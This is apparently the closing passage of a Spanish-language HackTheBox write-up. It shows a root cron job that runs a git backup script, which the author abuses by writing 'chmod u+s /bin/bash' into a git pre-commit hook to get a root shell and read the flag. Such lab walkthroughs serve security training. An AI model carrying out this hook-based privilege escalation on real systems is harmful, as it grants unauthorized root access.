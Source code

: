 ```wrap=false
2025/10/03 22:22:01 CMD: UID=0     PID=18692  | /bin/sh -c /root/meta/app/clean.sh 
2025/10/03 22:22:01 CMD: UID=0     PID=18691  | /usr/sbin/CRON -f 
2025/10/03 22:22:01 CMD: UID=0     PID=18690  | /usr/sbin/CRON -f 
2025/10/03 22:22:01 CMD: UID=0     PID=18689  | /usr/sbin/CRON -f 
2025/10/03 22:22:01 CMD: UID=0     PID=18699  | cut -d  -f1 
2025/10/03 22:22:01 CMD: UID=0     PID=18700  | /bin/sh -c /usr/local/bin/git-sync 
2025/10/03 22:22:01 CMD: UID=???   PID=18703  | ???
2025/10/03 22:22:01 CMD: UID=0     PID=18705  | 
2025/10/03 22:22:01 CMD: UID=0     PID=18708  | git commit -m Backup for 2025-10-03 
2025/10/03 22:22:01 CMD: UID=0     PID=18709  | git push origin main 
2025/10/03 22:22:01 CMD: UID=0     PID=18711  | git push origin main 
```

```bash wrap=false title='/usr/local/bin/git-sync'
#!/bin/bash

cd /home/dev01/

if ! git status --porcelain; then
    echo "No changes"
else
    day=$(date +'%Y-%m-%d')
    echo "Changes detected, pushing.."
    git add .
    git commit -m "Backup for ${day}"
    git push origin main
fi
```

Lo que se me ocurre para aprovecharnos de este repo es usar `git hooks`, con ellos podemos ejecutar comandos como el usuario dueño, **root**:

```bash wrap=false
dev01@opensource:~/.git$ echo 'chmod u+s /bin/bash' > /home/dev01/.git/hooks/pre-commit
dev01@opensource:~/.git$ chmod +x /home/dev01/.git/hooks/pre-commit
dev01@opensource:~/.git$ ls -la /bin/bash 
-rwsr-xr-x 1 root root 1113504 Apr 18  2022 /bin/bash
dev01@opensource:~/.git$ bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt 
b9c4e4aafb442a54ea...
```

[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/471)

---